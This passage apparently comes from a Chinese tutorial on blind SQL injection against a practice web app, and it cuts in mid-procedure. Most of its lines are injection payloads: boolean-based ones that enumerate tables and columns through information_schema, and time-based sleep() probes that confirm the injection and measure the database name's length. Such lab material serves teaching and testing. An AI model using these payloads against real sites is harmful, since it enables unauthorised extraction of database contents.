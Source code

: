 >* 输入`1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103 #` 显示不存在

说明第一个表的名字的第一个字符为小写字母g。

…

重复上述步骤，即可猜解出两个表名（guestbook、users）。


#### 4.猜解表中的字段名
首先猜解表中字段的数量：
> * 输入`1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=1 #` 显示不存在 
>  
> * … 
> 
> * 输入`1’ and (select count(column_name) from information_schema.columns where table_name= ’users’)=8 # `显示存在

接着挨个猜解字段名：

>*  输入`1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=1 #` 显示不存在 
>
> …
> 
>* 输入 `1’ and length(substr((select column_name from information_schema.columns where table_name= ’users’ limit 0,1),1))=7 #` 显示存在

说明users表的第一个字段为7个字符长度。

采用二分法，即可猜解出所有字段名

#### 5.猜解数据

同样采用二分法

### 基于时间的盲注：

#### 1.判断是否存在注入，注入是字符型还是数字型
> 输入`1’ and sleep(5) #`，感觉到明显延迟；
> 
> 输入`1 and sleep(5) #`，没有延迟；

说明存在**字符型**的基于时间的盲注。

#### 2.猜解当前数据库名

首先猜解数据名的长度：
>输入`1’ and if(length(database())=1,sleep(5),1) #` 没有延迟 
>
>输入`1’ and if(length(database())=2,sleep(5),1) #` 没有延迟
>
>输入`1’ and if(length(database())=3,sleep(5),1) #` 没有延迟
>
>输入`1’ and if(length(database())=4,sleep(5),1) #` 明显延迟
